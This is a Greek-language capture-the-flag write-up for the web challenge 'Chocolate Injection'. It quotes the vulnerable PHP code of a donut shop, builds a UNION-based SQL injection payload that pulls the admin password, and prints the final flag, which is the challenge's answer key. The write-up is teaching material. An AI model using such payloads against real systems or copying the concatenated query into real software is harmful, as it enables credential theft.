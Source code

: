 # Chocolate Injection Write-Up

| Δοκιμασία | Chocolate Injection |
| :-------- | :----------------- |
| Δυσκολία  | Μέτρια             |
| Κατηγορία | Παγκόσμιος Ιστός (Web Exploitation) |
| Λύσεις    | 21                 |
| Πόντοι    | 100                |

## Περιγραφή Δοκιμασίας

Έχω μια λιγούρα... ξέρεις κανένα κατάστημα με γλυκά;


## Ανάλυση Δοκιμασίας

Η δοκιμασία μας δίνει μια ιστοσελίδα για ένα website από το οποίο μπορούμε να παραγγείλουμε donuts. Μέσα από την ιστοσελίδα μπορούμε να βάλουμε donuts στο καλάθι μας, να δούμε το κόστος της παραγγελίας μας και να την στείλουμε. Επιπλέον υπάρχει και μια σελίδα για σύνδεση των διαχειριστών.


## Επίλυση


### Εξερεύνηση κώδικα
Ψάχνοντας τον κώδικα της εφαρμογής βλέπουμε πως μπορούμε να πάρουμε την σημαία από την διαχειριστική σελίδα αν υπάρχουν 4 παραγγελίες.

Παρακάτω φαίνεται ο σχετικός κώδικας από το αρχείο `html/admin.php`:
```html+php
<div class="text-end"><?= (count($orders) == 1 ? 'There is ' . count($orders) . ' order to be completed.' : (count($orders) == 4 ? 'There are ' . file_get_contents('../flag.txt') . ' orders to be completed.' : 'There are ' . count($orders) . ' orders to be completed.')); ?></div>
</div>
```

Για να μπορέσουμε όμως να πάρουμε πρόσβαση στην σελίδα διαχείρισης, πρέπει να πρώτα να βρούμε τα στοιχεία σύνδεσης κάποιου διαχειριστή. Από τον κώδικα της ιστοσελίδας, βλέπουμε πως στην βάση δεδομένων δημιουργείτε ένας λογαριασμός διαχειριστή με username `admin` και τυχαίο κωδικό τον οποίο δεν έχουμε.

Παρακάτω φαίνεται ο σχετικός κώδικας από το αρχείο `html/includes/database.php` (o κωδικός δημιουργείται τυχαία από τον κώδικα του `config/init.sh`):
```php
$app_db->exec('CREATE TABLE IF NOT EXISTS admins (id INTEGER PRIMARY KEY, username TEXT, password TEXT)');
$app_db->exec('INSERT INTO admins (username, password) VALUES ("admin", "{{RANDOM-ADMIN-PASSWORD}}")');
```

Βάση των στοιχείων που έχουμε, φαίνεται πως θα πρέπει ή να παρακάμψουμε την αυθεντικοποίηση του διαχειριστή, ή να βρούμε τον κωδικό του. Με μια πρώτη ματιά, ο κώδικας αυθεντικοποίησης φαίνεται να μην έχει κάποια ευπάθεια, ενώ παράλληλα παρατηρούμε πως ο τυχαίος κωδικός είναι πολύ μεγάλος για να τον μαντέψουμε ή να τον κάνουμε brute force. 

Βάζουμε λοιπόν σαν στόχο να καταφέρουμε να πάρουμε με κάποιον τρόπο τον κωδικό από την βάση. 

### Εύρεση και εκμετάλλευση ευπαθειών

Ψάχνοντας τον κώδικα βρίσκουμε πως στην αναζήτηση της σελίδα που επιλέγουμε donuts υπάρχει SQL Injection (SQLi) ευπάθεια την οποία μπορούμε να εκμεταλλευτούμε.

Παρακάτω φαίνεται ο σχετικός κώδικας με την ευπάθεια SQL Injection (SQLi) από το αρχείο `html/admin.php`:
```php
function getDonuts($searchQuery = '') {
	global $app_db;
	$query = "SELECT * FROM donuts";
	
	// Add search filter if a search query is provided
	if (!empty($searchQuery)) {
		$query .= " WHERE name LIKE '%$searchQuery%'"; // <-- SQLi vulnerability here
	}
	$query .= " ORDER BY name DESC";

	$result = $app_db->query($query);

	$donuts = [];
	while ($row = $result->fetchArray()) {
		$donuts[] = $row;
	}

	return $donuts;
}
```

Βάζοντας το κείμενό μας για την αναζήτηση, κατασκευάζετε το παρακάτω SQL query:
```SQL
SELECT * FROM donuts WHERE name LIKE '%Η ΑΝΑΖΗΤΗΣΗ ΜΑΣ ΜΠΑΙΝΕΙ ΕΔΩ%' ORDER BY name DESC
```

Μπορούμε λοιπόν να βάλουμε δικό μας SQL κώδικα κλείνοντας την αναζήτηση με την χρήση του `LIKE` και κάνοντας ένωση (`UNION`) της επιλογής από τον πίνακα `donuts` με μια επιλογή από τον πίνακα `admins`.

Για να πάρουμε τα στοιχεία των διαχειριστών θα κάναμε ένα SQL query για να τα επιλέξουμε από την βάση, το οποίο θα μας γύρναγε ένα πίνακα με 2 στήλες:
```SQL
SELECT username, password FROM admins;
```

Στο συγκεκριμένο όμως query στο οποίο έχουμε την ευπάθεια, έχουμε 4ις στήλες:
```SQL
SELECT * FROM donuts
```
Το οποίο είναι ίδιο με το:
```SQL
SELECT id, name, price, image FROM donuts
```

Έτσι θα πρέπει να τροποποιήσουμε την επιλογή μας έτσι ώστε να γυρίζει τις ίδιες στήλες με ψεύτικες τιμές όπου χρειάζεται:
```SQL
SELECT 0 as id, password as name, 1.50 as price, username as image FROM admins
```

Βάζοντας το query αυτό στο αρχικό SQL query που έχουμε και κάνοντας αλλαγές για να μπορεί να συνδεθεί, καταλήγουμε στο:
```SQL
SELECT * FROM donuts WHERE name LIKE '%' UNION SELECT 0 as id, password as name, 1.50 as price, username as image FROM admins --%' ORDER BY name DESC
```

Οπότε το payload μας το οποίο θα βάλουμε στο input της αναζήτησης θα είναι:
```
' UNION SELECT 0 as id, password as name, 1.50 as price, username as image FROM admins --
```

Αφού στείλουμε το payload, παίρνουμε τον κωδικό του admin από το όνομα του donut:
![exploit to recover admin password](images/exploit-to-recover-admin-password.png)

## Ανάκτηση σημαίας

Αφού έχουμε τον κωδικό, μπορούμε να συνδεθούμε στην διαχειριστική σελίδα.
![login to admin panel](images/login-to-admin-panel.png)

Στην συνέχεια, κάνοντας 4 παραγγελίες, εμφανίζεται η σημαία:
![recover flag](images/recover-flag.png)


## Σημαία

```
FLAG{Nom-n0m-I-lov3-doNuTs-w1TH-mY-SQL1!}
```
